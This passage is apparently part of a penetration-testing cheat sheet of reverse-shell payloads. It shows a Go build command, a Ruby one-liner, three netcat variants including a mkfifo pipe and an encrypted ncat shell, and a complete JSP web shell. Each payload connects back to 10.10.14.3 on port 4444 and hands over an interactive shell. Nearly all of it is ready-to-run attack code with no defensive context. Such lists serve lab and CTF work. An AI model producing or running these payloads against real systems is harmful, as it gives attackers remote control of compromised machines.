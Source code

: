Compile:

```bash
GOOS=linux GOARCH=amd64 go build shell.go
```

***

### X. 🧠 Ruby Reverse Shell

```bash
ruby -rsocket -e'f=TCPSocket.open("10.10.14.3",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

***

### XI. ⚙️ Netcat Reverse Shells

#### 🔹 Traditional

```bash
nc -e /bin/sh 10.10.14.3 4444
```

#### 🔹 Without `-e`

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.3 4444 >/tmp/f
```

#### 🔹 Ncat (Encrypted)

```bash
ncat --ssl 10.10.14.3 4444 -e /bin/bash
```

***

### XII. 🧱 Java Reverse Shell (JSP Payload)

```java
<%@ page import="java.io.*,java.net.*"%>
<%
String host="10.10.14.3";
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){
  while(pi.available()>0)so.write(pi.read());
  while(pe.available()>0)so.write(pe.read());
  while(si.available()>0)po.write(si.read());
  so.flush();
  Thread.sleep(50);
  try { p.exitValue(); break; } catch (Exception e){}
}
p.destroy(); s.close();
%>
```
